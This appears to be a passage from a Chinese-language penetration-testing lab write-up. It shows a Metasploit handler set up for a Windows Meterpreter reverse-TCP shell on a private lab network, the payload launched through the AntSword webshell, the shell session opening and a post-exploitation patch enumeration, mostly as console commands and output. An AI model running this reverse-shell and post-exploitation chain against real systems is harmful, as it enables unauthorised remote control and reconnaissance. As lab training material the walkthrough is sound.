 ```bash
msf6 exploit(multi/handler) > show options 
                                                                                                                                     
Module options (exploit/multi/handler):                                                                                              
                                                                                                                                     
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 

```



到蚁剑中运行

![image-20220811184743952](./st1.assets/image-20220811184743952.png)

Kali监听响应：

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 2 opened (192.168.220.137:9999 -> 192.168.220.138:1237 ) at 2022-08-11 06:45:39 -0400

meterpreter > 
```



收集补丁信息

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20220811064922_default_192.168.220.138_enum_patches_752941.txt
[+] KB2534111 installed on 8/25/2019
[+] KB2999226 installed on 9/15/2019
[+] KB958488 installed on 8/29/2019
[+] KB976902 installed on 11/21/2010
```

